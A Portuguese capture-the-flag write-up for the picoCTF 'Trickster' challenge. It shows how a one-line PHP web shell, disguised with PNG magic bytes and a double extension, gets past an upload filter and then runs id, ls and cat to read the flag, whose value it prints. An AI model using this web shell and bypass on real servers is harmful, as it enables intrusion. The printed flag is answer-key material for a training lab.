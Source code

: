 # Trickster  
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Upload Arbitrário de Arquivos, Execução Remota de Código (RCE) e Exposição de Diretórios e Arquivos Sensíveis

## Sobre o Desafio

Encontrei um aplicativo da web que pode ajudar a processar imagens: apenas imagens PNG!<br>
Detalhes adicionais estarão disponíveis após o lançamento de sua instância de desafio.

- [Trickster](https://play.picoctf.org/practice/challenge/445) 

## Solução  

Abrimos a URL do desafio e identificamos uma funcionalidade de upload que aceita apenas arquivos .png.

![image](https://github.com/user-attachments/assets/1ad8aadb-93a2-428b-b7a2-7ae33bc847cc)

Criamos um arquivo yo.php com uma simples payload PHP ```(<?=\$_GET[0]`?>`)```.

Tentamos enviá-lo, mas o servidor rejeitou, indicando que o nome do arquivo precisava conter .png.

![image](https://github.com/user-attachments/assets/5a513762-7cf8-4af4-8382-ff46da02f5dc)

Renomeamos o arquivo para yo.png.php e tentamos o upload novamente.
O servidor aceitou o nome, mas ainda rejeitou o arquivo dizendo que não era um PNG válido.

![image](https://github.com/user-attachments/assets/3b878932-f653-47d5-bef0-978a6afaa22f)

![image](https://github.com/user-attachments/assets/58157f2b-faf5-4fa4-8736-2362f4d855fd)

Pegamos os bytes mágicos do PNG (89 50 4E 47 0D 0A 1A 0A).
Criamos um arquivo base.png, abrimos em um editor hexadecimal e inserimos os bytes mágicos no início.

![image](https://github.com/user-attachments/assets/192391de-0113-44a6-ab5e-cec08305a643)

No final do arquivo, adicionamos a payload PHP ```(<?=\$_GET[0]`?>`)```.
Renomeamos para yo.png.php e fizemos o upload novamente.

![image](https://github.com/user-attachments/assets/5fc90973-f63b-44b4-93d2-7496179895dc)

![image](https://github.com/user-attachments/assets/c443c4ff-015d-44cc-b707-d0aad97d8398)

![image](https://github.com/user-attachments/assets/f448d0dc-aa4d-44c9-a156-20f23310f1b9)

Testamos diretórios comuns (/uploads/, /files/, /images/) e encontramos nosso arquivo em:

```https
http://atlas.picoctf.net:62573/uploads/yo.png.php
```

Testamos a execução de código com ?0=id, confirmando o acesso

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=id
```

Listamos arquivos no diretório

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=ls ..
```

Encontramos GQ4DOOBVMMYGK.txt e lemos o conteúdo

```
http://atlas.picoctf.net:62573/uploads/yo.png.php?0=cat%20../GQ4DOOBVMMYGK.txt
```

![image](https://github.com/user-attachments/assets/77bd82c3-e2cd-4150-a259-d26c06d14ac9)

> Assim, obtemos a flag `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e}` 
